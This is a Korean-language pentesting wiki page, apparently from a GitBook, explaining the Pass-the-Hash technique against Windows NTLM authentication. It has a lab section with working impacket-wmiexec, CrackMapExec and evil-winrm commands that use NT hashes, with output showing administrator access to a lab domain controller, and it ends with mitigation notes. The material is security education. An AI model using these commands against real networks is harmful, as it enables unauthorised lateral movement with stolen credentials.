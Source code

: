 # Pass-the-Hash

패스 더 해시 (Pass-the-Hash, PtH, PTH) 기법은 윈도우 NTLM 인증을 사용할 때 평문 비밀번호를 사용하지 않고, 그 비밀번호의 NT 해시를 사용해 인증하는 기법을 일컫는다. 패스 더 해시는 평범하게 NTLM 인증을 활용하는 기법 중 하나다. 만들어놓은 프로토콜을 의도한대로 평범하게 사용하는 것이다. [NTLM 인증의 개념은 따로 정리](../개념/윈도우-사용자-인증/ntlm.md)해놨으니 이 페이지에서는 다이어그램만 가져와서 사용하고, 자세한 설명은 생략한다.&#x20;

![](<../.gitbook/assets/ntlm-local-auth.drawio (2).png>)

NTLM 인증이 이뤄지는 동안 유저의 평문 비밀번호는 사용되지 않는다. Challenge/Response 에서는 오로지 유저의 NT 해시화된 비밀번호로 암호화된 Challenge 만 서버와 클라이언트가 주고 받을 뿐이다.

공격자의 입장에서도 마찬가지다. LSASS 덤프 (TODO: 페이지 생성 + 링크)를 진행하다 보면 유저의 NT 해시를 얻을 때가 많다. 경우에 따라서 크래킹이 가능한 경우도 있지만, 비밀번호가 복잡하고 길때는 불가능할때도 많다. 하지만 NTLM 인증 프로토콜은 평문 비밀번호가 필요 없는 프로토콜이다. 더 정확하게는 평문 비밀번호를 굳이 알아낼 필요가 없다. NT 해시만 있으면 된다.&#x20;

패스 더 해시는 원격 코드 실행 및 횡적이동에서 많이 사용된다.&#x20;

* SMB + PsExec&#x20;
* WMI&#x20;
* WinRM&#x20;
* RDP - 단, Restricted Admin (`HKLM\System\CurrentControlSet\Control\LSA, DisableRestrictedAdmin` 이 0이여야함)&#x20;

등의 횡적 이동을 할 때 모두 평문 비밀번호 대신 패스 더 해시를 이용할 수 있다.&#x20;

### 실습&#x20;

많은 윈도우 + 리눅스 기반의 액티브 디렉토리 툴들은 기본적으로 패스 더 해시를 지원한다.예를 들어 impacket, CrackMapExec, Rubeus, Mimikatz 등이 있지만, 거의 왠만한 툴들은 다 지원한다고 보면 된다.&#x20;

{% tabs %}
{% tab title="리눅스" %}
impacket 툴들의 경우 `-hashes` 플래그를 사용하며, LM:NT 형식의 해시가 필요하다. CME의 경우 그냥 NT 해시만 줘도 된다.&#x20;



```
# Impacket 툴들의 "-hashes" 플래그 사용 
impacket-wmiexec domain.com/user@targetFQDN <command> -hashes '<LM:NT>'

impacket-wmiexec choi.local/Administrator@dc01.choi.local whoami -hashes 'aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe' 
Impacket v0.10.1.dev1+20220628.224634.5122bcf - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
choi\administrator

# CME 의 -H 플래그 사용 
cme smb <FQDN/IP> -u <user> -H <NThash> -d <domain> 

cme smb 192.168.40.150 -u Administrator -H 2b576acbe6bcfda7294d6bd18041b8fe -d choi.local                                  
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\Administrator:2b576acbe6bcfda7294d6bd18041b8fe (Pwn3d!)

cme smb 192.168.40.150 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe -d choi.local 
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\Administrator:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe (Pwn3d!)

# WinRM을 이용한 패스 더 해시 
evil-winrm -i <ip> -u <user> -H <NThash> 
```
{% endtab %}

{% tab title="윈도우" %}
TODO&#x20;
{% endtab %}
{% endtabs %}

### 특이 사항&#x20;

패스 더 해시 기법의 가장 큰 오해는 바로 이것이 공격(attack)이라는 것이다. 패스 더 해시는 공격도 아니고, 특정 프로토콜을 악용(abuse)하는 것도 아니다. NTLM 인증 프로토콜의 취약점(vulnerability)는 더더욱 아니다. 따라서 내부망 모의해킹을 진행할 때도 이 PTH 를 취약점으로 적어놓는 실수를 하면 안된다.&#x20;

### 대응 방안&#x20;

앞서 서술했듯 패스 더 해시는 NTLM을 정상적으로 이용하는 한 방법이기 때문에 막을 방법이 없다. 그나마 AD에서 커버로스나 ADCS를 강제로 이용하게 하는 방법이 있지만, 이는 하위 호환성에 영향을 줄 가능성이 있어 실행하기 어렵다. 패스 더 해시를 막으려는 노력보단 애당초 공격자들이 NT 해시나 다른 계정 정보를 얻을 수 없게끔 보안을 강화하는 것이 추천된다.&#x20;

